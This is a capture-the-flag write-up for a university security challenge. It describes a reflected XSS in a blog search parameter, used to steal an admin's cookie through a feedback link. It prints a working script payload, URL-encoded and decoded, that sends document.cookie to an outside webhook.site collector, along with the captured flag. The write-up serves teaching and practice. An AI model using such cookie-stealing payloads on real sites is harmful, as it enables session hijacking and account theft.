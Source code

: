 # Challenge `My Favourite Cookies` writeup

- Vulnerability:
  - _Endpoint has a **Cross Site Scripting (XSS)** vulnerability_
- Where:
  - _`/?search=` (in the feedback) endpoint_
- Impact:
  - _Allows to **obtain the admin's cookies** by injecting malicious code in the webpage_

## Steps to reproduce

First we connected to the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22251`. We can see that the server has a search bar for blog posts. If we search for something, we can see that the search is reflected in the page, like this `/?search=`. This means that the server is probably vulnerable to **XSS**.

In this challenge we need to obtain the admin's cookie, so we need to find a way to inject code in the page that will lure the admin to perform a request to the site where we are collecting the cookies.
Since we did not have any site of our own we used a online service to collect our https requests [Webhook](https://webhook.site/). 

We noticed that there was a place where we could insert a link to report a bug or request a feature. This lead to us thinking the admin might click it to review the reports/requests. 

With this thought in mind we sent the following payload after the `/?search=` in the feedback link:

```url
%3Cscript%3Edocument.write(%27%3Cimg%20src=%22https://webhook.site/a0e83e7e-be55-4740-8180-f38200e300ea?c=%27%2bdocument.cookie%2b%27%22%20/%3E%27);%3C/script%3E)
```

The payload after url decoded is:
```html
<script>document.write('<img src="https://webhook.site/a0e83e7e-be55-4740-8180-f38200e300ea?c='+document.cookie+'" />');</script>
```

As soon as the admin **'clicked the link',** we received the following cookie in the http request:
```SECRET=SSof{This_is_my_secret}```

Now, we were able to store the request in a website we control and therefore have possession of the admin's cookie obtaining the **flag**.
